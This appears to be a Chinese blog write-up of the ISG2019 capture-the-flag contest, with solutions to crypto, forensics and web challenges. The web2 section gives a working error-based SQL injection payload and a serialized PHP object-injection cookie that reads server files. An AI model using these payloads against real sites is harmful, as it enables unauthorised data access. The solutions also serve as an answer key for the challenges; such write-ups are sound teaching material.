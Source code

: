 ```yaml
---
title: ISG2019 线上赛比赛记录
date: 2019-08-28 12:21:49
tags:
  - 古典密码与编码
  - SQLi
  - 反序列化
categories:
  - 比赛记录
---
```


题目难度不算大，但是考验脑洞。

<!--more-->

## 签到题

键盘密码，四个字母中间的那个字母就是明文。

## 传统安全服务初体验

扫目录扫出许多路径，唯一有用的是 `/admin/upload.php`，提示只能 `image` 或 `text/xml`。设置 `Content-Type` 为 `text/xml` 上传一张普通图片发现可以成功，存储在 `upload/` 目录下，但是存在了 1s 就被删了，估计是要写脚本访问。

尝试访问 `/admin/upload/` 发现可以浏览目录，flag 居然就直接就显示在这个目录下？？感觉像是非预期解。

## 攻击日志分析

导出 HTTP 对象，WinRAR 修复即可。

## 轻松一刻

试着玩了一下之后发现生成了一个 `save1` 二进制文件，用 WinHex 打开只能看到 3 个 ASCII 字符 `2 A C`，把 `2` 改成 `3` 之后载入游戏，发现来到了新的一关，因此猜测这个是关卡序号，逐次尝试后发现改成 `5` 可以得到 flag。

## 安全专家的基本修养

对图片 `binwalk` 分离出压缩包，根据提示 `five` 用 5 位数字爆破密码 `77777`，得到字符串：

```
QKM{Waoq_Fzuzns_kqaoc_!!!!_dk}
```

根据提示 `isg2019!`，将其作为密钥进行维吉尼亚解密：

```
ISG{Oiii_Ntmhhk_sksww_!!!!_vs}
```

但是答案错误，想了半天才知道第二个提示 ` 想不到是英文的吧 ` 意思是把密钥中的数字换成英语，即 `isgtwozeroonenine`，重新维吉尼亚解密即可。

脑洞题没什么意思。但是如果能早点想到维吉尼亚密钥里不应该有数字的话，可能也不至于太需要脑洞？

## web2

忘记这题的名字了，总之很容易发现是注入题，在 `hint.php` 中的 `v1` 里输入一个 `'` 得到报错信息，尝试报错注入，最终 payload 类似：

```
v1=1','2'or updatexml(1,concat(0x7e,(select temp.xxx from (select group_concat(kkk) as xxx from isgta61e) temp),0x7e),1),'3','4');#&v2=&v3=&v4=
```

payload 中间部分的构造原因稍后解释。

其实如果按照报错注入的方式构造 payload 那么只能得到表里的信息，但是光看表里的信息并没有什么用，只能看到关键在于第二行（`__ISG` 开头的那行）。这里的坑点在于，无论在 `hint.php` 中 POST 了什么，都会跳转到 `ffflllaaaggg.php`，这个页面上只有一句话 `try get flag?`，这句话本身是一个双关，是在提示我们用 GET 方法传 `flag` 参数，这一点感觉很脑洞……

我们访问 `ffflllaaaggg.php?flag=` 后就可以得到 `ffflllaaaggg.php` 的源码：

```php
<?php
    include "ISGClass.php";
    echo "try get flag?";
    if(isset($_GET["flag"])) {
        highlight_file("ffflllaaaggg.php");
    }
    if(isset($_COOKIE["ISG"])){
        highlight_file("ISGClass.php");
        $isg = urldecode($_COOKIE["ISG"]);
        $isg = unserialize($isg);
    }
    if(isset($_POST["v1"]) and isset($_POST["v2"]) and isset($_POST["v3"]) and isset($_POST["v4"])){
        $InsertData = new Conn();
        $InsertData->InsertData($_POST["v1"], $_POST["v2"], $_POST["v3"], $_POST["v4"]);
    }
?>
```

这里注意到需要设置一个 `ISG` 的 Cookie 来读取 `ISGClass.php`，这个 Cookie 值会被 URL 解码后反序列化。我们随意设置一个 `ISG` 的 Cookie 后查看源码：

```php
<?php
include "Conn.php";

class ISGClass
{
    var $value1;
    var $value2;
    public function __wakeup()
    {
        $Kkk = new Conn();
        $Kkk = $Kkk->SelectData();
        if(gettype($this->value1) == gettype($Kkk) and $this->value1 == $Kkk){
            highlight_file("{$this->value2}.php");
        }else{
            echo "find kkk!";
        }

    }
}
```

PHP 在反序列化前会先执行 `__wakeup()` 函数，这里我们不需要绕过这个函数。猜测这里的 `Kkk` 就是刚才我们查到的数据库里的 `kkk` 字段，那么我们需要构造 `value1` 使得其类型和值都与 `kkk` 相同。具体是哪个 `kkk` 呢？当然是标有 `ISG` 的第二行了，该行 `kkk` 值为 `54t7869yi`。

这样以后我们就能读取 `value2` 指向的文件了，我们目前还没有读的就是 `hint.php`。构造 payload：

```php
O:8:"ISGClass":2:{s:6:"value1";s:9:"54t7869yi";s:6:"value2";s:4:"hint";}
```

然后 URL 编码：

```php
O%3A8%3A%22ISGClass%22%3A2%3A%7Bs%3A6%3A%22value1%22%3Bs%3A9%3A%2254t7869yi%22%3Bs%3A6%3A%22value2%22%3Bs%3A4%3A%22hint%22%3B%7D
```

最后设置到 Cookie `ISG` 里，POST 给 `ffflllaaaggg.php?flag=` 即可得到 `hint.php` 源码，flag 就在其中。

这题 `get flag` 的双关既考验脑洞，又是解题的关键，所以略坑。

> 印象里还有一题 SSRF 的，利用的是 PHP 反序列化漏洞，然而环境无法复现了。。